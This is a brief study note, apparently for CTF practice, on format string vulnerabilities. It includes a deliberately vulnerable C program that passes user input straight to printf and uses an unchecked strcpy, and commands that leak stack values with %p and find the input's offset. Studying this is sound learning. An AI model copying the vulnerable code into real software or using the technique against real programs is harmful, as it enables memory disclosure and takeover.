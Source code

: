 # Format String Vulnerability
- https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/
- [fmtstr_payloadを紐解いて書式文字列攻撃を理解する #脆弱性 - Qiita](https://qiita.com/mae_t/items/91a82f8efe361305c29b)
# example1
```c
// gcc -m32 chall.c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
    char buffer[64];
    strcpy(buffer, argv[1]);
    printf(buffer);
    printf("\n");
    return 0;
}
```

```bash
./a.out $(python3 -c 'print("AAAA,"+",".join(["%p" for _ in range(20)]))')
AAAA,0xffc5a15f,(nil),0x565981e4,0xf7ef7540,0xffffffff,0x56597034,0xffc592c4,0xf7f30608,0xb,0xffc5920c,0x41414141,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70

./a.out "AAAA,%11\$p"
AAAA,0x41414141
```
